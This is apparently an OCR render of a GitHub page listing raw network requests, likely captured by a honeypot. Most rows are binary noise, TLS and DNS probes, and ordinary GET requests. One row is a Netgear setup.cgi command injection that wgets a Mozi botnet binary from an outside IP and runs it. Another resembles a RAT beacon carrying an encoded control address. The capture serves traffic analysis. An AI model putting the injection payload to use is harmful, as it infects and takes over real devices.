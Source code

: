 | 134 |                     1 | batman                                                                                                                                                                                                                                                                                                                                                                                                           |
| 135 |                     1 | \x1B\x84\xD5\xB0]\xF4\xC4\x93\xC50\xC2X\x8C\xDA\xB1\xD7\xAC\xAFn\x1D\xE1\x1E\x1A3*\x85\xB7\x1D'\xB1\xC9k\xBF\xF0\xBC                                                                                                                                                                                                                                                                                             |
| 136 |                     1 | H\x00\x00\x00tj\xA8\x9E#D\x98+\xCA\xF0\xA7\xBBl\xC5\x19\xD7\x8D\xB6\x18\xEDJ\x1En\xC1\xF9xu[l\xF0E\x1D-j\xEC\xD4xL\xC9r\xC9\x15\x10u\xE0%\x86Rtg\x05fv\x86]%\xCC\x80\x0C\xE8\xCF\xAE\x00\xB5\xC0f\xC8\x8DD\xC5\x09\xF4                                                                                                                                                                                           |
| 137 |                     1 | l\x00\x0B\x00\x00\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                    |
| 138 |                     1 | 145.ll|'|'|SGFjS2VkX0Q0OTkwNjI3|'|'|WIN-JNAPIER0859|'|'|JNapier|'|'|19-02-01|'|'||'|'|Win 7 Professional SP1 x64|'|'|No|'|'|0.7d|'|'|..|'|'|AA==|'|'|112.inf|'|'|SGFjS2VkDQoxOTIuMTY4LjkyLjIyMjo1NTUyDQpEZXNrdG9wDQpjbGllbnRhLmV4ZQ0KRmFsc2UNCkZhbHNlDQpUcnVlDQpGYWxzZQ==12.act|'|'|AA==                                                                                                                         |
| 139 |                     1 | \x01\x82\x00\x00\x00\x01,\xEF:\xE7\x89\xFEH\xAF\xAC\xF8\xC1Pq\xD7\xC3\xE8S\x8A\xD6:\x17\xD93\x14o)S}\xBB\xBB\x97b\xCE\xB6\x0B\x9B\xB97>\x01\xCFv\xAE\xA0E\xB6D\xEA\xE1\xEAA\xC4\xDB\xEE\x09\xAC\xFB\xF0\x84)k\xBBc\x18]V\x85V\xC5_\x05T\x0Bt\xC4\x0B\xBE\xB5w\xBCM=[1\xE1\x06\x9C\xFD\xD3g^\xE3\x01\x9BK\xD7\xFC>\xFFk\xAF\x95\x99\xFB\xDBH\x90\x8BD\x88`k\x92\xF5e\x1C\xAA\xBB{_LP\x15\x85\x1E\x0E\x8F\xDD\xC5J |
| 140 |                     1 | \xBD\xFF\x9E\xFFE\xFF\x9E\xFF\xBD\xFF\x9E\xFF\xA4\xFF\x86\xFF\xC4\xFF\xBE\xFF\xC7\xFF\xDB\xFF\xEE\xFF\xD9\xFF\xED\xFF\xA4\xFF\x9D\xFF\xCF\xFF\xD8\xFF\xE5\xFF\x04\xFF\x12\xFF0\xFF\xB1\xFF\xBD\xFF\xE7\xFF\xE2\xFF\xDD\xFF\xDC\xFF\xDE\xFF\xC8\xFF\xCC\xFF\xBE\xFF\xF8\xFF&\xFF\x01\xFF\x0F\xFF\xF5\xFF\x06\xFF\xFF\xFF\xF7\xFF!\xFF\xDE\xFF\x02\xFF&\xFF\x0C\xFF\x01\xFF\xF5\xFF                                |
| 141 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://59.95.82.185:53205/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                      |
| 142 |                     1 | GET /license.txt HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                        |
| 143 |                     1 | GET /wp-json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                            |
| 144 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03[\xE8\x04\xE4\x0C\x16{P\x81\xFA\xBFL\xBA\x14\xD4\xE2g\xEFc\x92\x06b_9P\xCE{\xD0g\xAF\x1B\xF7\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                             |
| 145 |                     1 | \x09\x12;Bo3\xA2D\xFD\x01\x86si=\xAE\x12\xBB\xC6\x19\xFD\x1A:\xF3\x11\xC9\xAE\xDA<0\xBC8\x81\x9E\x00\x0F\xCAN\xFB\x05\xC6\xDE\xB7<oN\x01\xA2\x87\x82\xF5/\x8E\xED*\x1F\x0E\xB7C\x0C\xA04]\xBD\x80PVf\x1A\x11\xAF\xF5\xC8\xA3\x16+b\xB1\xD7                                                                                                                                                                       |
| 146 |                     1 | \x00\x1E\x00\x06\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x07version\x04bind\x00\x00\x10\x00\x03                                                                                                                                                                                                                                                                                                                  |